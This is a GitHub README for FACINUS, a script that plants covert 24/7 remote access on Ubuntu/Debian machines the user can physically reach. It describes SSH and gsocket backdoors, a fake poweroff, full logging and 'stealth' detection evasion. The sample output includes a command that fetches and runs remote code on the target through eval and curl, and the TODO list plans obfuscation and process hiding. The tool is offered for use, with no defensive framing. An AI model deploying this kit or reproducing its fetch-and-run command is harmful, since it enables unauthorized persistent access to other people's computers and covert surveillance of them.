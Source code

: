 ## FACINUS - set a 24/7 access on a Ubuntu/Debian PC you have physical access to with [gsocket](https://www.gsocket.io/) and other features

This script is setting up an Apache server on your Arch based linux distro and targets Ubuntu/Debian.

## Features
- **SSH**: Set up SSH server on target to quickly access from internal network.
- **WOL**: Check for wake-on-lan availability, to be able to wake any other pc's on network which ran the script.
- **24/7**: Fake a poweroff to keep the PC running 24/7.
- **Log**: Logs everything on your server.
- **gsocket**: Set up a gsocket service on target to access the server from anywhere.
- **Stealth**: Simple evading techniques to avoid detection.

## Installation
For now this script doesn't have checks for other distros than Arch based with pacman package manager. I'll add more checks later.
You just have to run the install script that will setup everything automatically for you.
```
./install
```

## Web Interface
After running the script you'll see something like this:
```
./install
[sudo] password for elleoma: 
Obfuscated script created.
==============================================================
Deployment server setup complete!
==============================================================
Server URL: http://192.168.0.131/deployment
Admin Page: http://192.168.0.131/deployment/admin.php
Admin Password: 2cn2lguMIdx9
Client Setup Command: eval "$(curl -fsSL http://192.168.0.104/deployment/y)"
==============================================================
Secret Token for accessing logs: NTVEYJWTYAk5OolAAKYodaSjPWKaKb4X
==============================================================
```
After accessing url you'll see a simple commands to copy and paste on the target.
On the admin panel you can check the logs and the secrets for gsocket access.

<img src="https://github.com/elleoma/facinus/blob/beta/screenshots/deployment.png"/>
<img src="https://github.com/elleoma/facinus/blob/beta/screenshots/admin.png"/>

## TODO
- [ ] Fix fake poweroff
- [x] Add checks for other distros
- [ ] Obfuscation, process hiding, etc.
- [ ] Ability to install common precompiled binaries on a target without root access.
- [ ] Add options to the script (no root, no services, etc.)
- [ ] Add a dark theme for the web interface
